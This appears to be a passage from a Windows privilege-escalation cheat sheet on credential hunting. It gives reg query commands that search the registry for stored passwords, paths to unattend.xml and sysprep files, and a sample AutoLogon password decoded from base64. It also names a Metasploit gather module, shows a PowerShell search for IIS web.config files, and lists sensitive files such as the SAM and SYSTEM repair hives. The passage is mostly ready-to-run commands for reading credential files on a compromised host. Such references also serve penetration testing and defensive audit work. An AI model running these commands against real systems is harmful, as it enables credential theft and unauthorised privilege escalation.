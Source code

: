 reg query HKLM /f password /t REG\_SZ /s
reg query HKCU /f password /t REG\_SZ /s

Read a value of a certain sub key

REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList

Passwords in unattend.xml

Location of the unattend.xml files.

C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

Display the content of these files with dir /s \*sysprep.inf \*sysprep.xml \*unattended.xml \*unattend.xml \*unattend.txt 2&gt;nul.

Example content

&lt;component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64"&gt;
    &lt;AutoLogon&gt;
     &lt;Password&gt;U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==&lt;/Password&gt;
     &lt;Enabled&gt;true&lt;/Enabled&gt;
     &lt;Username&gt;Administrateur&lt;/Username&gt;
    &lt;/AutoLogon&gt;

&lt;UserAccounts&gt;
     &lt;LocalAccounts&gt;
      &lt;LocalAccount wcm:action="add"&gt;
       &lt;Password&gt;\*SENSITIVE\*DATA\*DELETED\*&lt;/Password&gt;
       &lt;Group&gt;administrators;users&lt;/Group&gt;
       &lt;Name&gt;Administrateur&lt;/Name&gt;
      &lt;/LocalAccount&gt;
     &lt;/LocalAccounts&gt;
    &lt;/UserAccounts&gt;

Unattend credentials are stored in base64 and can be decoded manually with base64.

$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo="  \| base64 -d 
SecretSecurePassword1234\*

The Metasploit module post/windows/gather/enum\_unattend looks for these files.

IIS Web config

Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config

Other files

%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat